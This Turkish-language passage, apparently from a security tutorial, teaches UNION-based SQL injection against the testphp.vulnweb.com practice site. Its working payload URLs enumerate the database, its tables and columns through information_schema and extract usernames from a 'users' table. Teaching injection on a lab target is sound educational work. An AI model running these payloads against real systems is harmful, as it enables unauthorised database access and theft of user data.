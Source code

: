 version() yerine database() fonksiyonunu kullanırsak mevcut database adını görebiliriz. Yani veritabanındaki tüm helper fonksiyonlar artık kullanımımıza hazır durumda.

![Untitled](0x01 104201f95d914f67830bee663ffbdc7f/Untitled 33.png)

Peki bizim yazdığımız SELECT sorgusunda hangi tablodan veri çekeceğiz ? FROM’dan sonra neler yazmalıyız ?

```
SELECT * FROM haberler WHERE id = 1
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 FROM ?
```

Artık bu aşamada tablo adını bulmamız gerekiyor.

Öncelikle Mysql Workbench’e bir bakalım;

![MSQL Workbench Genel Görünümü](0x01 104201f95d914f67830bee663ffbdc7f/Untitled 34.png)

MSQL Workbench Genel Görünümü

Burada tüm tablo ve kolon isimleri getirilmektedir. Peki mysql workbench bunu nereden bilmektedir ?

Her ilişkisel veritabanı sisteminde o sistemdeki tablo, kolon isimlerini barındıran bir sistem bilgi tablosu vardır.

```sql
http://testphp.vulnweb.com/listproducts.php?cat=-1
UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11
FROM information_schema.tables WHERE table_schema = database()
```

Artık bu sorgu ile tüm tablo isimlerine ulaşabilmekteyiz.

![Untitled](0x01 104201f95d914f67830bee663ffbdc7f/Untitled 35.png)

artık burada örneğin “users” tablosundan veri çekmek istersek şöye bir sorgulama yapabiliriz:

```
http://testphp.vulnweb.com/listproducts.php?cat=-1
UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11
FROM information_schema.columns WHERE table_name ='users'
```

ve bize istediğimiz sonuçları getirmiş olacaktır.

![Untitled](0x01 104201f95d914f67830bee663ffbdc7f/Untitled 36.png)

yeni bir sorgu:

```
http://testphp.vulnweb.com/listproducts.php?cat=-1
UNION SELECT 1,2,3,4,5,6,uname,8,9,10,11 FROM users
```

![Untitled](0x01 104201f95d914f67830bee663ffbdc7f/Untitled 37.png)

yeni bir sorgu, artık sqlmap’in nasıl çalıştığını da anlayabilmekteyiz.
